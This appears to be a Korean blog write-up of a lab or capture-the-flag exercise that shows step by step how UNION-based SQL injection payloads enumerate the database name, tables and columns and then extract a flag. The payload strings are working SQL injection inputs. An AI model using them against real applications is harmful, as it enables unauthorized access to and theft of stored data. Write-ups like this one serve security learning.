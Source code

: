 ![union select](/assets/screenshots/union-sqli/sql_1_database.png)

컬럼 수가 확인된 뒤, `UNION SELECT` 문을 통해 데이터를 삽입해보았다.

```html
normaltic'+union+select+database(),'lll',3,4--+
```

를 입력하자 검색 결과 중 하나에 **sqli_1**이라는 문자열이 출력되었고, 이를 통해 현재 사용 중인 데이터베이스의 이름이 **sqli_1**임을 확인할 수 있었다.

이후 `information_schema.tables`를 활용하여 데이터베이스 내 존재하는 테이블 이름을 확인했다. 

```html
normaltic'+union+select+1,'lll',3,(select+table_name+from+information_schema.tables+where+table_schema='sqli_1'+limit+0,1)--+ 
```

쿼리를 통해 **flag_table**이라는 테이블 이름을 추출할 수 있었다.

마찬가지로 `information_schema.columns`를 사용하여 해당 테이블의 컬럼 이름을 찾기 위해 

```html
normaltic'+union+select+1,'lll',3,(select+column_name+from+information_schema.columns+where+table_schema='sqli_1'+and+table_name='flag_table'+limit+0,1)--+
```

를 입력했고, **flag**라는 컬럼명을 알아낼 수 있었다.

마지막으로 실제 데이터를 확인하기 위해 

```html
normaltic'+union+select+1,'lll',3,(select+flag+from+flag_table+limit+0,1)--+
```

쿼리를 사용하면

![sql1 flag](/assets/screenshots/union-sqli/sql_1_flag.png)
